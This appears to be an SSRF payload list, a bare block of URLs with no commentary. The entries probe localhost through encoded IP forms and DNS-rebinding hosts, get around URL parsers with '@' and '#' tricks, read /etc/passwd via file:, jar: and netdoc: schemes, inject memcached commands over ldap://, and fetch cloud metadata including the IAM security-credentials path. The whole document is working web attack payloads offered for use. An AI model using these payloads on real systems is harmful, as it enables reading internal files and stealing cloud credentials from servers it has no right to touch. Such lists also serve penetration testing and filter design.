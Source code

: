 ```
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
http://localhost:80
http://localhost:443
http://localhost:22
https://127.0.0.1/
https://localhost/
http://[::]:80/
http://[::]:25/
http://[::]:22/
http://[::]:3128/
http://0000::1:80/
http://0000::1:25/
http://0000::1:22/
http://0000::1:3128/
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network
127.0.0.1.nip.io
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://0177.0.0.1/
http://2130706433/
http://3232235521/
http://3232235777/
http://2852039166/
http://[0:0:0:0:0:ffff:127.0.0.1]
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1
http://127.0.0.1/%61dmin
http://127.0.0.1/%2561dmin
0://evil.com:80;http://google.com:80/ 
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
file:///etc/passwd
file://\/\/etc/passwd
ldap://localhost:11211/%0astats%0aquit
netdoc:///etc/passwd
http://instance-data
http://169.254.169.254
http://169.254.169.254.xip.io/
http://1ynrnhl.xip.io/
http://www.owasp.org.1ynrnhl.xip.io/
http://nicob.net/redir6a
http://nicob.net/redir-http-169.254.169.254:80-
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
```